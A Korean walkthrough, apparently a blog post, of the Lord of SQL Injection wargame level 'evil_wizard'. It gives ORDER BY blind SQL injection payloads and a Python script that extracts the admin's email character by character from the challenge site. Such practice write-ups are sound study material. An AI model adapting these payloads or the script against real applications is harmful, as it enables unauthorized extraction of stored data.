 ```yaml
---
title: LOS - 24번 evil_wizard
category: Lord of SQL Injection
---
```


# [24] evil_wizard

## 문제

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FCPYrT%2FbtrocdvYsid%2FzK4XYNKw6I4J3h0KHsSM91%2Fimg.png">

## 풀이

소스 코드만 보면 이전 문제와 완전히 같다.

물론 같은 문제일리가 없으니 테이블 내부 데이터를 확인해본다.

<br>

다음은 order=1을 페이로드로 전달했을 때 볼 수 있는 테이블이다.


<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzuOin%2FbtrobVbqsuX%2FD1PiXYZI0jjLsIzxh6LbNk%2Fimg.png">


이번 문제는 id ASC로 정렬해도, score ASC로 정렬해도 그 결과가 같을 것임을 예상할 수 있다.

<br>

그렇다면 이번에는,<br>

if 조건문의 참/거짓에 따라 각각 "1 ASC"와 "1 DESC"를 반환해주면 될 것 같다.

<br>

그렇게 해주면 if문의 조건이 참인 경우,<br>

admin 레코드가 위로 올라가게 되며, 이 경우 res.text에는 **50&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;rubiya** 가 포함될 것이다.

<br>

따라서, 전달해줄 페이로드는 다음과 같다.

<br>

[1] pw 길이 찾기

```
?order=if(id='admin' and length(email)=[길이], '1 ASC', '1 DESC')
```


[2] 완전한 pw 찾기

```  
?order=if(id='admin' and ascii(substr(email,{len},1))=[아스키], '1 ASC', '1 DESC')
```


[3] 참 판별

```
if("50</td></tr><tr><td>rubiya" in res.text)
```

<br>


**LoS 24번 Python 자동화 코드**이다.
```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
    cookie = "tp0ja8gkvp5j75fm5lntqomope"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 24를 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, '1 ASC', '1 DESC')"
    if("50</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, '1 ASC', '1 DESC') %23"
        if("50</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, '1 ASC', '1 DESC') %23"
            if("50</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlPVPv%2FbtrobTraaKg%2FQ8ClrhC9pPGBea0pOv6n0K%2Fimg.png">
  
Blind 공격 결과, admin의 email은 `aasup3r_secure_email@emai1.com` 임을 알 수 있다.
  
## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFRzmL%2Fbtrob7Qa1Vp%2FcNk6I956Im1KcsZugbp5E1%2Fimg.png">
